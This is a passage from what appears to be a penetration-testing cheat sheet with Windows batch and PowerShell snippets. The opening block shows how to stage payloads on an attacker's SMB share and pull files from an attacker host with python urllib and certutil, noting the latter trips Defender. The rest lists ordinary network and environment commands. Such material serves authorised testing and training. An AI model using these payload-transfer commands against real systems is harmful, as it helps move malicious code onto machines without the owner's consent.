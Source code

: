 ``` bat
:: smb; run a local smb server on kali with `impacket-smbserver <sharename> <directory>`
:: a nice recipe to make your payloads available on \\<yourip>\transfer: `impacket-smbserver transfer /usr/share/windows-binaries/`
net view \\<attackip>
dir \\<attackip>\<share>
copy \\<attackip>\<share>\<filename> .

:: python HTTP request; works on pretty old Python versions and would work on Linux, too
python.exe -c "import urllib; urllib.urlretrieve('<url>', '<outfile>')"

:: certutil urlcache; NOTE: this is detected as malware in Windows 10 Defender
certutil -urlcache -f <url> <fout>
```


## Powershell Utilities

* Working with the environment
```posh
# list all environment variables
ls env:

# dump an object as JSON
$pwd | ConvertTo-Json -Depth 2
```

* Networking information
```posh
# equivalent to `ipconfig /all`
gip

# show network adapters
get-netadapter

# print the routing table for a specified network adapter
get-netadapter "<adaptername>" | get-netroute

# show active network connections
Get-NetTCPConnection | ? State -eq Established | sort Localport | FT -Autosize

# show DNS cache
Get-DnsClientCache

# get mapped drives
Get-SmbMapping

# map a network drive
New-SmbMapping -LocalPath <driveletter>: -RemotePath <netpath>

# `ping` equivalent
Test-Connection <ip>

# continuous `ping` equivalent
Test-Connection <ip> -Count 999999999

# test if remote TCP port is open
tnc <ip> -p <port>

# DNS lookup
resolve-dnsname <host>
```
